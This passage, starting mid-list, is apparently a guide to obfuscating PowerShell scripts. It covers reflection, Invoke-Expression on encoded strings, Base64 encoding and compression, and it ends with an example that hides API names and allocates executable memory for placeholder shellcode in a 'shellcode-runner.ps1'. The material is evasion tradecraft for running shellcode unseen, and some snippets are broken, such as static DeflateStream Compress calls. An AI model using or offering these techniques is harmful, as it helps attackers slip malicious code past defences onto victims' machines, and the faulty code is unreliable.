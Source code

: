    ```powershell
   $functionName = "Virtual" + "Alloc"
   $allocateMemory = Get-Command $functionName
   ```

### 4. **Use of Reflection:**
   - Invoke methods using reflection instead of direct calls, making it harder to determine which methods are being used.

   ```powershell
   $method = [System.Runtime.InteropServices.Marshal].GetMethod("GetDelegateForFunctionPointer")
   $delegate = $method.Invoke($null, @($ptr, [SomeDelegateType]))
   ```

### 5. **Dynamic Code Execution:**
   - Use `Invoke-Expression` or `Invoke-Command` to execute obfuscated strings as code.

   ```powershell
   $cmd = "Get-Process"
   Invoke-Expression $cmd
   ```

### 6. **Encoding the Entire Script:**
   - Encode the entire script and use a stub to decode and execute it at runtime.

   ```powershell
   $encodedScript = "BASE64_ENCODED_SCRIPT"
   $decodedScript = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($encodedScript))
   Invoke-Expression $decodedScript
   ```

### 7. **Compressing the Script:**
   - Compress the script and decompress it during execution.

   ```powershell
   $compressed = [System.IO.Compression.DeflateStream]::Compress([System.Text.Encoding]::UTF8.GetBytes($script))
   [System.IO.Compression.DeflateStream]::Decompress($compressed)
   ```

### Example Obfuscation for `shellcode-runner.ps1`:

Here’s a basic example combining some of the above methods:

```powershell
# Obfuscate strings
$kernel32 = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("a2VybmVsMzIuZGxs"))
$VirtualAlloc = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("VmlydHVhbEFsbG9j"))

# Obfuscate function calls
$allocateMemory = [System.Runtime.InteropServices.Marshal]::GetMethod($VirtualAlloc, [Type[]]@([IntPtr],[UInt32],[UInt32],[UInt32]))
$ptr = $allocateMemory.Invoke($null, @($null, 4096, 0x1000, 0x40))

# Obfuscate shellcode
$shellcode = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("SHELLCODE_BASE64"))
```
